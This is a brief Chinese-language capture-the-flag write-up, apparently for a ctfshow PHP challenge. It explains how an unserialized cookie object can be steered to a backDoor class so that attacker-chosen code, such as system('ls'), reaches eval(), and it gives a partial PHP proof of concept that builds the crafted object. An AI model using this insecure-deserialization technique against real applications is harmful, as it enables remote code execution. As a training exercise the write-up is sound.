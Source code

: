 <figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ①代码解释

这个代码比较复杂了家人们，首先还是GET方式得到两个参数$username $password,然后反序列化cookie里面的user，再创建这个之前，我们需要执行\_\_construct()，然后再讲login传入username和password，然后然后再执行\_\_destruct(),然后再执行getInfo（），这个时候就要看class是等于什么了。

### ②思路解释

如果我们想要他执行backDoor里面的getinfo，我们就要让class等于backDoor，然后我们就有机会控制eval（）函数执行的代码片段。

所以这个时候我们可以用php代码来生成我们需要的user。

除了基本的，我们就是让class等于backDoor，让code等于我们要执行的代码差不多是system("ls");

```php
<?php

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'backDoor';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}
```